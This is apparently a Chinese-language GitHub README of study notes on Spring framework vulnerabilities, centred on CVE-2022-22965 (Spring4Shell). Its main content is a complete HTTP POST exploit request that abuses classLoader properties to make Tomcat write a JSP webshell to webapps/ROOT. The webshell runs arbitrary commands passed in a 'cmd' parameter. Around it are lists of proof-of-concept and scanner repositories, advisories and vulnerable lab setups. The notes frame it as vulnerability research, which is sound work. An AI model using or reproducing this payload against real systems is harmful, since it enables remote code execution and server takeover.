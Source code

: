 # HackSpring-永恒之春

本项目用来致敬全宇宙最无敌Spring框架！同时也记录自己在学习Spring漏洞过程中遇到的一些内容。本项目会持续更新，本项目创建于2022年3月30日，最近的一次更新时间为2022年4月11日。作者：[0e0w](https://github.com/0e0w)

- [01-Spring基础知识]()
- [02-Spring框架识别]()
- [03-Spring上层建筑]()
- [04-Spring漏洞汇总]()
- [05-Spring检测利用]()
- [06-Spring漏洞修复]()
- [07-Spring分析文章]()
- [08-Spring靶场环境]()

## 01-Spring基础知识

- Spring
- SpringBoot

## 02-Spring框架识别

- https://mp.weixin.qq.com/s/cmkTMw_QS8o1wMsRd0E0XQ

## 03-Spring上层建筑

**Spring + ？ = rce ！**

## 04-Spring漏洞汇总

- CVE-2022-22965

## 05-Spring检测利用

如何判断一个网站是否存在Spring漏洞？如何查找内网中存在Sprin漏洞？

一、Payload

```
POST / HTTP/1.1
Host: 127.0.0.1:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 761

class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22S%22.equals(request.getParameter(%22Tomcat%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=Shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

二、源码检测
- https://github.com/webraybtl/springcore_detect

三、漏洞验证

- 测试时发现webshell只能写入一次！第二次失败！

四、漏洞扫描

五、其他工具
- https://github.com/TheGejr/SpringShell
- https://github.com/BobTheShoplifter/Spring4Shell-POC
- https://github.com/kh4sh3i/Spring-CVE
- https://github.com/GuayoyoCyber/CVE-2022-22965
- https://github.com/viniciuspereiras/CVE-2022-22965-poc
- https://github.com/reznok/Spring4Shell-POC
- https://github.com/jschauma/check-springshell
- https://github.com/colincowie/Safer_PoC_CVE-2022-22965
- https://github.com/alt3kx/CVE-2022-22965
- https://github.com/alt3kx/CVE-2022-22965_PoC
- https://github.com/exploitbin/CVE-2022-22963-Spring-Core-RCE
- https://github.com/light-Life/CVE-2022-22965-GUItools
- https://github.com/Mr-xn/spring-core-rce
- https://github.com/Kirill89/CVE-2022-22965-PoC
- https://github.com/Axx8/SpringFramework_CVE-2022-22965_RCE
- https://github.com/likewhite/CVE-2022-22965
- https://github.com/mebibite/springhound
- https://github.com/irgoncalves/f5-waf-enforce-sig-Spring4Shell
- https://github.com/hktalent/spring-spel-0day-poc
- https://github.com/darryk10/CVE-2022-22963
- https://github.com/WeiJiLab/Spring4Shell-POC
- https://github.com/Corgizz/SpringCloud
- https://github.com/NewBeginning6/spring-Framework-rce
- https://github.com/wjl110/CVE-2022-22965_Spring_Core_RCE
- https://github.com/k3rwin/spring-core-rce
- https://github.com/thelostworldFree/SpringCloud-Config-CVE-2020-5410
- https://github.com/YanMu2020/SpringScan
- https://github.com/wearearima/poc-cve-2018-1273
- https://github.com/metaStor/SpringScan

## 06-Spring漏洞修复

## 07-Spring分析文章

- https://www.cyberkendra.com/2022/03/springshell-rce-0-day-vulnerability.html
- https://bugalert.org/content/notices/2022-03-29-spring.html
- https://websecured.io/blog/624411cf775ad17d72274d16/spring4shell-poc
- https://www.springcloud.io/post/2022-03/spring-0day-vulnerability
- https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement
- https://tttang.com/archive/1532

## 08-Spring靶场环境

- https://github.com/jbaines-r7/spring4shell_vulnapp
- https://github.com/Kirill89/CVE-2022-22965-PoC
- https://github.com/DDuarte/springshell-rce-poc
- https://github.com/XuCcc/VulEnv

[![Stargazers over time](https://starchart.cc//HackJava/Spring.svg)](https://starchart.cc/HackJava/Spring)

